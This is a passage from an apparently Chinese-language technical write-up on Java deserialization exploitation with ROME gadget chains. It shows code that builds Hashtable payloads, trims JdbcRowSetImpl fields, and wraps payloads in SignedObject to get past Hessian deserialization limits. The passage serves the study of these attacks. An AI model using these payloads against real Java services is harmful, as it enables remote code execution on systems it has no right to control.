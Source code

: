 ```java

        Utils.unserialize(Utils.serialize(table));
    }

    static void clear(JdbcRowSetImpl jdbcRowSet) throws Exception {
        Utils.setFieldValue(jdbcRowSet, "iMatchColumns", null);
        Utils.setFieldValue(jdbcRowSet, "resBundle", null);
        Class<?> clazz = Class.forName(BaseRowSet.class.getName());
        Field fee = clazz.getDeclaredField("listeners");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);

        fee = clazz.getDeclaredField("params");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);
    }
}
```
最后长度为：
![](https://syclover.feishu.cn/space/api/box/stream/download/asynccode/?code=MTYzOTBiOWY0ZGJhZmIxZTc4MTk3NGNhZmUzMzI5NTJfd2V6RFdKQmhJd3RVeGRFcWJmN1BSRTIxeUp2RTlOOUlfVG9rZW46Ym94Y25ZUE1tVVdYY3hQNDUxNXJwOEpEWkVjXzE2NDY4ODcyMDU6MTY0Njg5MDgwNV9WNA)
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220321143222.png)

## 二次反序列化绕过方式
有时候我们会遇到一些其他的反序列化方式，例如Hessian(2)，如果使用这种序列化/反序列化的话，我们的链可能会出现问题，原因是我们的Sink不能再使用TemplatesImpl类，原因是: 这种反序列化不会触发`TemplatesImpl.readObject()`方法，导致反序列化出来的`TemplatesImpl._tfactory`属性为空(这个属性存在transient关键字修饰，无法序列化)，这样导致我们最后没办法利用`TemplatesImpl#defineTransletClasses`方法去实现任意java代码执行。

在这种情况下实际上我们就只剩下JNDI这一条路，但加入目标不出网/JDK版本过高的话，JNDI是不好用的，还有其他方法吗？

答案是二次反序列化，我们知道EqualsBean/ToStringBean这几个类最终会触发某个类的所有getter，那么假如存在一个类其getter方法又会使用java原生反序列化，而且其反序列化内容我们可以控制的话，我们就可以进行绕过了，这个类正是`java.security.SignedObject`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220321144705.png)

那么我们去找下这个类的用法，其构造方法的第一个参数会被序列化然后存放到`SignedObject.content`中:
```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject("secret", kp.getPrivate(), Signature.getInstance("DSA"));
```

通过使用这个类，我们可以最终构造出二次反序列化的payload:
```java
public class ROMETools {

    public static Hashtable getPayload (Class clazz, Object payloadObj) {
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        Utils.setFieldValue(bean, "beanClass", clazz);
        Utils.setFieldValue(bean, "obj", payloadObj);

        return table;
    }
```
